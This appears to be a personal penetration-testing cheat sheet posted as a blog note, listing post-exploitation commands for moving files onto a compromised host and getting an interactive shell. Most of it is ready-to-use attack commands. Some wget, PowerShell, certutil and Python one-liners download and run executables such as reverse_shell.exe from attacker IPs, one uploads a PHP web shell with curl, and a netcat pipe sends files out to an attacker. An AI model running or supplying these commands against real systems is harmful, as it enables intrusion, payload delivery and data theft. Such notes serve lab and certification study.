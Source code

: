 ```yaml
---
layout: single
title: "Misc Notes"
collection: notes
excerpt: "Trials and tribulations"
permalink: /notes/2020-05-10-misc
toc: true
---
```


# Exploitation:
## Gaining a reverse shell:




# Post Exploitation
## Transfering Files: 
HTTP:
- Apache: 
Copying the file to `/var/www/html` directory and starting apache services.
-  Python
```python
  python -m SimpleHTTPServer 80
  python3 -m http.server 80
```

Downloading the files:
*  via browser in a Gui platform.
*  via shell access.
   -  wget command.
   ```python
    wget http://10.10.10.100:8007/execute.py; chmod +x excute.py; ./excute.py
   ```
   - Using Powershell:
   ```python
   powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
   powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.x.x.x:8000/reverse_shell.exe','C:\Windows\Temp\patch.exe')
   certutil.exe -urlcache -split -f "https://host/40564.txt" attack.txt
   certutil.exe -decode attack.txt attack.exe
   ```
   -  curl command.
   ```python
     curl -O http://10.10.14.30:9005/file
     Uploading:
     curl --upload-file shell.php --url http://$ip/shell.php --http1.0
   ```
   -  Python.
   ```python
      python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
   ```

Ftp:
- 
   ```python
      Install the python ftp library - pyftpdlib
      python -m pyftpdlib -p 21
   ```

Smb:
-  
   ```python
      python smbserver.py SHARENAME /root/shells

      Copying files:[Target Machine]
       dir \\192.168.0.201\SHARENAME
       copy \\192.168.0.201\SHARENAME\40056.exe
   ```

Protip:
-  
```python
   On local system:
   cat filetoupload | base64 -w 0; echo
   #double click on output to copy
   On Target System:
   echo <copiedContent> | base64 -d > filetoupload
```

* Netcut:

   ```python
      on attacker run:
      nc -lvp 443> transfer.txt
      on target run:
      cat transfer.txt | nc $attackerip 443
   ```

## Spawning a Shell:
Python:
```python
    python -c  'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'

```
Echo:
```python
   echo os.system('/bin/bash') 
```
Bash and Sh:
```python
   /bin/bash -i
   /bin/sh -i
```
## Obtaining a interactive shell.

1. Do CTRL+Z to background Netcat Session.

2. Enter stty raw -echo in your terminal

3. Run the command fg - bring Netcat back to the foreground.

## List user privileges:
```python
   Windows: 
   whoami /priv
   Unix:
   sudo -l
```